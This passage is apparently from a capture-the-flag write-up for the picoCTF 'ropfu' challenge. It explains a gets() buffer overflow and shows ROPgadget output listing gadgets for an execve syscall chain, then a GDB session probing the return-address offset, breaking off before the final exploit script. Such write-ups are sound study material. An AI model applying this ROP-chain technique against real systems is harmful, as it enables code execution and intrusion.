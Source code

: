 {% endccb %}

The source only provides us with one vulnerable function: `gets()`. I've gone over this extremely unsafe function multiple times now, so feel free to read [MITRE's Common Weakness Enumeration page](https://cwe.mitre.org/data/definitions/242.html) if you don't know why. There is also no convenient function with `execve("/bin/sh", 0, 0)` in it (for obvious reasons), so we will have to insert our own shellcode.

Although we could totally solve this the old-fashioned way (as John Hammond did in [his writeup](https://www.youtube.com/watch?v=c7wNN8qgxAA)), we can use the power of automation with a tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)! Let's try using it here to **automatically** build the ROP-chain for us, which will eventually lead to a [syscall](https://en.wikipedia.org/wiki/System_call):

{% ccb html:true caption:'auto rop-chain generation' url:'github.com/JonathanSalwan/ROPgadget' url_text:'github link' scrollable:true terminal:true %}
<span class="meta prompt_">$ </span><span class="language-bash">ROPgadget --binary vuln --ropchain</span>

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x8059102 mov dword ptr [edx], eax ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x80583c9 pop edx ; pop ebx ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x80b074a pop eax ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x804fb90 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x804fb90 xor eax, eax ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x808055e inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x8049022 pop ebx ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x8049e39 pop ecx ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x80583c9 pop edx ; pop ebx ; ret

- Step 4 -- Syscall gadget

    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x804a3d2 int 0x80

- Step 5 -- Build the ROP chain
<div class="skip-highlight">(omitted for brevity, will be in final script!)</div>
{% endccb %}

Oh, wow. It generated the entire script for us (unfortunately in Python2), with only a few missing bits and bobs! The only things we need to manually configure now are the offset and remote connection. Since the `checksec` mentioned that there was a canary enabled, it looks like we'll have to manually guess the offset with the `$eip`:

{% ccb html:true caption:'GDB - \"GDB enhanced features\"' url:'gef.readthedocs.io/en/master' url_text:documentation terminal:true %}
<span style="color:#47D4B9"><b>gef➤  </b></span>shell python3 -q
>>> print('A'*28 + 'B'*4)
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
>>> 
<span style="color:#47D4B9"><b>gef➤  </b></span>r
Starting program: /home/kali/ctfs/pico22/ropfu/vuln 
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

